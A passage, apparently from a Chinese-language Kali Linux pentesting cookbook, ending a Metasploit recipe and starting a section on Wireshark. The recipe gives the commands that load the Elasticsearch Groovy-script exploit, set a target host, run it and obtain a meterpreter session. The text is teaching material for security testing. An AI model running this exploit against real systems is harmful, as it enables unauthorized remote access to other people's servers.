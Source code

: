 1.  我们在这种情况下选择利用：

```
 use exploit/multi/elasticsearch/search_groovy_script
```

以下截图显示了上述命令的输出：

![](img/d9555910-c534-433c-b376-1989c20ed3b2.png)

1.  我们使用`set RHOST x.x.x.x`命令设置 RHOST：

![](img/23726177-ae46-4a05-99fb-575043e5b4b9.png)

1.  我们运行以下命令：

```
 run
```

1.  我们的 meterpreter 会话已准备就绪。

![](img/791bec9c-03e1-426c-918f-7a6590cd7e0d.png)

# 另请参阅

+   *探索 msfconsole*示例

# 老牌的 Wireshark

Wireshark 是世界上最常用的网络协议分析器。它是免费和开源的。它主要用于网络故障排除和分析。在这个示例中，您将学习一些关于 Wireshark 的基本知识，以及我们如何使用它来分析网络流量，以找出实际通过我们的网络流动的信息。

# 准备好

Kali 已经预先安装了该工具，让我们看看如何运行它！

# 如何做...
